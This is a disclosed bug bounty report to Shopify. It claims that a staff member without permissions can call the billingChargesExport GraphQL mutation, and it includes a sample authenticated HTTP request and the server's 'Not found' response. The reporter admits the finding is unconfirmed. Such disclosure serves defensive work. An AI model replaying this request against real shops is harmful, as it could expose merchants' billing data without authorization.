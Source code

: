 # Low Privileged Staff Member Can Export Billing Charges

## Report Details
- **Report ID**: 1010835
- **URL**: https://hackerone.com/reports/1010835
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-18T03:35:59.203Z
- **Disclosed**: 2020-11-26T20:23:41.366Z

## Reporter
- **Username**: ash_nz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Details
I'm not 100% sure about this because i don't have billing transactions on my account. However, from my experience on how Shopify backend respond, i think this is a valid finding just need confirmation from Shopify's security team.
A GraphQL mutation `billingChargesExport` can be used by a staff member with no permissions to export billing charges. The following is a sample request.

```http
POST /admin/internal/web/graphql/core HTTP/1.1
Cookie: [REDACTED]
accept: application/json
X-CSRF-Token: [REDACTED]
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.5
Host: [YOUR-SHOP].myshopify.com
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 303

{"query":"\r\n        \r\nmutation BillingChargesExport($id:ID!,$exportFormat:ExportFormat){billingChargesExport(id:$id,exportFormat:$exportFormat){message userErrors{field message __typename}__typename}}\r\n","variables":{
"id": "gid://shopify/BillingInvoice/58138130",
"exportFormat":"EXCEL_CSV"
}}
```
The response i've got is the following.

```json

{
    "data": {
        "billingChargesExport": {
            "__typename": "BillingChargesExportPayload", 
            "message": null, 
            "userErrors": [
                {
                    "__typename": "UserError", 
                    "message": "Not found", 
                    "field": null
                }
            ]
        }
    }, 
    "extensions": {
        "cost": {
            "requestedQueryCost": 10, 
            "throttleStatus": {
                "restoreRate": 250.0, 
                "currentlyAvailable": 4990, 
                "maximumAvailable": 5000.0
            }, 
            "actualQueryCost": 10
        }
    }
}
```

I usually get `access denied` or something that indicates a privilege issue. However in this case i'm getting `Not found` which indicate that the resolver searched for the given `BillingInvoice` but could not find it. I can't confirm this from my side, hence reporting this.

## Impact

Low Privileged Staff Member Can Export Billing Charges

## Attachments
No attachments
